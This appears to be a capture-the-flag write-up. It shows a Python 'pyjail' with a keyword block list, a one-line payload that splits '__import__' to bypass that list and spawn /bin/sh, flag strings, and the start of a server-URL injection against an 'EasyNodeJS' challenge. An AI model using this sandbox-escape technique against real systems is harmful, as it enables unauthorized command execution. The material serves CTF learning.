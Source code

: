 ```py
#!/usr/bin/python3

import sys

print('Last pyjail was too ez, isn\'t it?')
print('So I will give you one more question.')
print('It\'ll be quite tricky.')
print('Give it a try!')
sys.stdout.write(' > ')
sys.stdout.flush()

command = input()

for word in ['eval', 'exec', 'import', 'os', 'cat', 'system', 'open', 'read', '+', '"']:
        if word in command:
                print('Go away!!')
                sys.exit(0)

try:
        exec(command)
except:
        print('Hmm...')
```

`__builtins__.__dict__['__im''port__']('subprocess').call(['/bin/sh','-s'])`

`A0V3R{na.hwa.nat.da}`

## NOTBARCODE

`A0V3R{DATA_EXTRACTION_AND_GUESSING_FUNZ}`

## EasyNodeJS

```js
var formData = new FormData();
formData.append('server', 'http://127.0.0.1:${port}/timeserver');
formData.append('timezone', document.getElementById('timezone').value);

var req = new XMLHttpRequest();
req.open('POST', '/time', false);
req.send(formData);
```

사이트에 접속하면 위와 같은 코드가 있다.

```py
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://example.com',
    'timezone': '0'
})
print(r.text)
```
